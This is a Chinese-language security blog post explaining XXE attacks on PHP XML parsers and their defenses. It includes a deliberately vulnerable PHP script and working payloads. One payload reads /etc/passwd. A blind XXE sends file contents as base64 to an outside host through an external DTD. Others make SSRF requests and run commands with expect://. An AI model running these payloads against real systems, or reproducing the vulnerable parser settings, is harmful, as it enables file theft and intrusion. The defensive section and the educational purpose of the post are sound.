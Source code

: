 ```yaml
---
layout:     post
title:      XXE漏洞攻击与防御
subtitle:   
date:       2017-07-27
author:     sp4rk
header-img: 
catalog: true
tags:
    - XXE
---
```


XXE漏洞是XML外部实体化注入，解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，可造成文件读取、命令执行、ssrf、DDOS等漏洞,外部实体化和DTD的外部实体化方式有关。

##  0x01 XML，DTD基础  
### 1.教程
XML教程:[XML教程](http://www.runoob.com/xml/xml-tutorial.html)
DTD教程:[DTD教程](http://www.runoob.com/dtd/dtd-tutorial.html)
### 2.DTD外部实体
```xml
语法为：
<!ENTITY name SYSTEM "URL/URI">
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE address SYSTEM "address.dtd">
<address>
   <name>sp4rk</name>
   <email>admin@sp4rk.cn</email>
</address>

address.dtd为：
<!ELEMENT address (name, email)>
<!ELEMENT name (#PCDATA)>
<!ELEMENT email (#PCDATA)>

参数实体：
<!ENTITY % ename "entity_value">
<!--entity_value is any character that is not an '&', '%' or ' " -->
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE address [
    <!ENTITY % name SYSTEM "file:///etc/passwd">
    %name;
]>
```


<!--more-->


## 0x02 XXE漏洞攻击
### 1.任意文件读取
在vps上测试下,simplexml_load_string,SimpleXMLElement,DOMDocument类均可触发xml,这里以DOMDocument为例
```php
<?php
    #让php允许外部实体
    libxml_disable_entity_loader(false);

    $xml = file_get_contents('php://input');

    $dom=DOMDocument::loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);
    #LIBXML_NOENT:将XML中的实体引用替换成对应的值
    #LIBXML_DTDLOAD：加载 DOCTYPE 中的DTD文件

    $test = simplexml_import_dom($dom);
    #simplexml_import_dom：从DOM节点获取一个SimpleXMLElement对象。
    $user = $test->user;
    echo "test xml external entity: $user";
?>
```
post xml内容:
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ELEMENT test ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<test>
<user>&xxe;</user>
</test>
```
可以发现成功读取了/etc/passwd
![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fcgrb6rnj30rq0gw0t5.jpg)
大多数情况下，页面是没有回显的(blind xxe)，可以运用php伪协议进行文件读取,我本地测试了很久没测试出来（菜的一批）

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ELEMENT test ANY >
<!ENTITY %file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY %dtd SYSTEM "http://sp4rk.cn/test.dtd">
]>
<test></test>

test.dtd为
<!ENTITY %all "<!ENTITY &#x25; mydata SYSTEM "http://sp4rk.cn/?%file">"> %all;
```
### 2.ssrf
虚拟机中测试，xml代码如下，本地192.168.199.239监听1234端口
```xml
<?xml version="1.0" encoding="utf-8"?>  
<!DOCTYPE ANY [  
<!ENTITY test SYSTEM "http://192.168.199.239:1234">]>
<root>&test;</root>
```

![](/Users/sp4rk/Desktop/boke/b.jpg)
### 3.RCE
当开启PHP PECL扩展库中的expect的时候，可以造成命令执行
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ELEMENT test ANY >
<!ENTITY xxe SYSTEM "expect://whoami" >]>
<test>
<user>&xxe;</user>
</test>
```
## 0x03 xxe漏洞防御
### 1.禁用xml外部实体
```php
PHP：
libxml_disable_entity_loader(true);                          

JAVA:
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);

Python：
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```
### 2.过滤xml外部实体的关键字：
过滤<!DOCTYPE>, <!ENTITY>, SYSTEM 等

## 参考链接：
[浅谈XXE漏洞攻击与防御](https://thief.one/2017/06/20/1/)
[XXE漏洞分析](http://www.4o4notfound.org/index.php/archives/29/)
[XXE简单学习](https://lu0chen.github.io/sql/touchxxe/#blind-xxe)